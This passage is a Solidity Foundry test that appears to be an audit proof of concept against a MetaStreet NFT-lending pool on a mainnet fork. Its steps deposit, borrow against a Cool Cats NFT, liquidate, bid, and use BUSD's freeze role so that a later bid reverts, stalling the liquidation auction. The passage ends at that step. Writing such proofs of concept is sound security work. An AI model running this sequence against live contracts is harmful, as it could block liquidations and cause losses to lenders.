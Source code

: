 ```solidity
address constant borrower =  0x9773cc2b33C0791D1f35a93f6b895c6Ede1feb54;
address constant borrower2 = 0xB8B6910ed0cf70F92C9a6327838dad479302e7Ad;
address constant coolCats =  0x1A92f7381B9F03921564a437210bB9396471050C;
uint256 constant coolCatsId = 5827;
uint256 constant coolCatsId2 = 5118;

contract MetaStreetTest is Test {

    IPool       pool;

    function setUp() public {
        cheats.createSelectFork("mainnet");

        cheats.label(address(factory), "Factory");
        cheats.label(address(liquidator), "Liquidator");
        cheats.label(address(busd), "BUSD");

        uint64[] memory durations = new uint64[](1);
        uint64[] memory rates = new uint64[](1);

        durations[0] = 1 days;
        rates[0] = 3170979198;

        console.log("New pool created with BUSD...");
		pool = IPool(factory.createProxied(poolImpl, abi.encode(coolCats, busd, durations, rates)));
        cheats.label(address(pool), "Pool");
    }

    function testMetaStreetBid() external {
        uint128 tick = 1e26 << 8;
        uint128[] memory ticks = new uint128[](1);
        ticks[0] = tick;

        console.log("Step 1: Depositing...");
        cheats.startPrank(depositor);
        busd.approve(address(pool), type(uint256).max);
		pool.deposit(tick, 5 ether, 0);

        console.log("Step 2: Borrowing...");
        cheats.startPrank(borrower);
        IERC721(coolCats).approve(address(pool), coolCatsId);

        cheats.recordLogs();
		pool.borrow(4 ether, 1 days, coolCats, coolCatsId, 5 ether, ticks, bytes(""));
        CheatCodes.Log[] memory entries = cheats.getRecordedLogs();
        bytes memory encodedLoanReceipt = abi.decode(entries[entries.length - 1].data, (bytes));

        console.log("Step 3: Liquidating...");
        cheats.warp(block.timestamp + 2 days);
		cheats.startPrank(bidder);
		pool.liquidate(encodedLoanReceipt);

        console.log("Step 3.1: Depositor Bidding...");
        busd.approve(address(liquidator), type(uint256).max);
		liquidator.bid(coolCats, coolCatsId, 6 ether);

        console.log("Step 3.2 Freezing BUSD asset of bidder...");
		cheats.startPrank(busd.assetProtectionRole());
		busd.freeze(depositor);

        console.log("Step 3.3 Another's bidding will revert!!!");
		cheats.startPrank(bidder2);
```